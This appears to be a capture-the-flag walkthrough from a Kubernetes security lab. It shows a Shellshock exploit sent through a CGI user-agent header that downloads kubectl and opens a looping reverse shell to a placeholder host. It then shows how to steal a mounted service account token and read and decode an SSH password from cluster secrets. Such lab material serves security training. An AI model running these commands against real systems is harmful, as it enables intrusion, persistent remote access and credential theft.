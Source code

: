    Hardcore version:

   ```
   while :; do curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "test -f /tmp/k || wget -O /tmp/k https://storage.googleapis.com/kubernetes-release/release/v1.11.2/bin/linux/amd64/kubectl && chmod +x /tmp/k && /tmp/k version; df -h; while :; do nohup bash -i >& /dev/tcp/<host_ip>/1234 0>&1; sleep 1; done"'; done
   ```

Part 2: 

Kubectl SA: steal secret with ssh password in (flag)

### Steps

1. on the control server, or via individual shellshock commands:

   Search for secrets:

   ```
   df -h
   cat /run/secrets/kubernetes.io/serviceaccount/token; echo 
   
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get  nodes
   
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify auth can-i get secrets --namespace kube-system   
   ```

2. pull secrets from the API server for this namespace (there's a service account mounted that can read kube-system)

   ```
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get secrets -n shellshock
   ```

3. we've found secrets, now decode them

   > first way requires manual base64 decode, second is a one-liner

   ```
    /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --request-timeout 5s  --server https://kubernetes.default.svc --insecure-skip-tls-verify get secret my-secret -o yaml -n shellshock 
   
    /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get secret my-secret -n shellshock -o 'go-template={{index .data "ssh_password"}}' | base64 -d; echo
   ```

4. find password for ssh server in flag

5. write password in local file to win (or just tell ControlPlane!) TODO(low): write test for this

   ```
   echo 'What kind of plane is it?' > /tmp/flag
   ```
   
